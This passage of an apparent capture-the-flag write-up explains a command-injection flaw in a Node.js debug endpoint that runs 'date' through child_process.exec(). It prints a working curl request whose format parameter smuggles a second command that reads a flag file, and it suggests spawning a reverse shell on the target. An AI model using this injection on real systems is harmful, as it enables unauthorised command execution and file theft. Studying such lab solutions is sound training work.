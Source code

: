 ### Solve
From the looks of the solves during the CTF, it had seemed that some unintended solutions came in due to the flag file being easily guessable, where one just did a file read directly on the flag by figuring out the user and file structure of the system. However, the intended solution which is needed to further advance to the next and last challenge is to get RCE in the system. The more-detailed-debug-endpoint calls the unix command `date` again, but using `child_process.exec()`. This means, that one can control and chain multiple commands more freely, enabling RCE. An example payload for this is to simply add an semicolon (`;`) and then chain another command after `date` is executed.

```sh
curl -s -H 'authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywidXNlcm5hbWUiOiJhZG1pbiIsImlzQWRtaW4iOjEsImlhdCI6MTcwMTE3MzQ4NiwiZXhwIjoxNzMyNzA5NDg2fQ.TFzllamMp0d7Rv9eIdRvvJHWr8-dk0h2iZSY1Z6nV5c' -H 'X-DEBUG: OMEGAPOINT{d8b732c8a1d3e796be06bb8b8a172e7a}' 'http://51.120.250.68/api/debug/date?format=a;cat%20/home/user/flag.txt'
```
![reverse shell](image-6.png)

### Flag

`OMEGAPOINT{8fe9deb64640640925372079449bfcb5}`

## [9] I am groot!

### Description

You're very close to the secret manuals now. Can you grow from a mere user to the mighty admin?

### Solve
Navigating around the system reveals the user `admin`, which we do not have control over. To more easily take control over the user `user` one could spawn a reverse shell on the system. Also, having a non-interactive tty-shell, there are certain commands and stuff one can't do. Using sites such as https://www.revshells.com/ can help with building a payload for creating a reverse shell on the target system.
